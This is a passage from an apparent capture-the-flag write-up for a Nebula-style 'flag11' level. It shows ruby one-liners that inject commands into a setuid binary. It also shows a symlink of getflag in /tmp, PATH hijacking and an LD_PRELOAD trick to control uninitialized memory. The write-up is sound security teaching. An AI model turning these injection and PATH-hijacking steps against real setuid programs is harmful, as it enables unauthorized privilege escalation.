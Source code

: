}
{% endcodeblock %}

The `fread(buf, length, 1, stdin)` always returns 1 as we can read in the unix manual:
`fread()  and  fwrite()  return the number of items successfully read or written (i.e., not the number of characters).`

Here `if(length < sizeof(buf)) {` we have two ways to progress. I suppose
having two solutions means calling `process()` from the different parts of code.

The first way is setting "Content-Length: 1". The buffer is XORed using the simple algorithm below, this time the 'for' cycle runs only once.
{% codeblock lang:c %}
  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }
{% endcodeblock %}

{% codeblock %}
sh-4.2$ ruby -e 'print "Content-Length: 1\nA"' | /home/flag11/flag11 
sh: @: command not found

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
sh: $'A\300Q': command not found

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
sh: -c: line 0: unexpected EOF while looking for matching ``'
sh: -c: line 1: syntax error: unexpected end of file

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
sh: A: command not found
{% endcodeblock %}

Because the buffer with 'A' character is not NULL terminated and contains
uninitialized data, we use the technique described here [Controlling uninitialized memory with LD_PRELOAD](http://vulnfactory.org/blog/2010/04/08/controlling-uninitialized-memory-with-ld_preload/)
to have more luck with terminating 'A'. 

{% codeblock %}
sh-4.2$ ln -sf /bin/getflag /tmp/A
sh-4.2$ export PATH=/tmp:$PATH

sh-4.2$ export LD_PRELOAD=$(ruby -e 'print "\n" * 50')

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
getflag is executing on a non-flag account, this doesn't count
{% endcodeblock %}

The getflag runs, albeit there is a bug in the binary, because the new process
is created using `system()`, so it wasn't possible to get flag11 privileges.

{% codeblock %}
man 3 system

  Do not use system() from a program with set-user-ID or set-group-ID privileges,
  because strange values for some environment variables might be used to subvert
  system integrity. Use the exec(3) family of functions instead, but not
  execlp(3) or execvp(3). system() will not, in fact, work properly from
  programs with set-user-ID or set-group-ID privileges on systems on which
  /bin/sh is bash version 2, since bash 2 drops privileges on startup. (Debian
  uses a modified bash which does not do this when invoked as sh.)
{% endcodeblock %}
